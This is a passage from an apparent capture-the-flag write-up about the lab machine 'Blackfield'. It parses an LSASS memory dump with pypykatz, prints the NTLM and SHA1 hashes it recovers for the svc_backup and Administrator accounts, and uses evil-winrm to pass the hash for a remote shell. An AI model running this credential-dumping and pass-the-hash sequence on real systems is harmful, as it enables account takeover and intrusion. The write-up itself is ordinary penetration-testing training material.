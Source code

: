 This is a backup of a LSASS file, that could be extracted with a mimikatz-like tool :

Here : https://beta.hackndo.com/remote-lsass-dump-passwords/

```bash
pypykatz lsa minidump lsass.DMP -o lsass.txt
```

The output contains many informations, but we can find some hash :

For account svc_backup:

```text
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
		DPAPI: a03cd8e9d30171f3cfe8caad92fef621
```

For account Administrator:

```text
== LogonSession ==
authentication_id 153705 (25869)
session_id 1
username Administrator
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T17:59:04.506080+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-500
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
		DPAPI: 240339f898b6ac4ce3f34702e4a89550
```

There is a NTLM hash for user "BLACKFIELD\svc_backup", and "BLACKFIELD\Administrator"

With these NTLM hash, it is now possible to have a shell to the target with the user svc_backup :

```bash
evil-winrm -i ${TARGET} -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
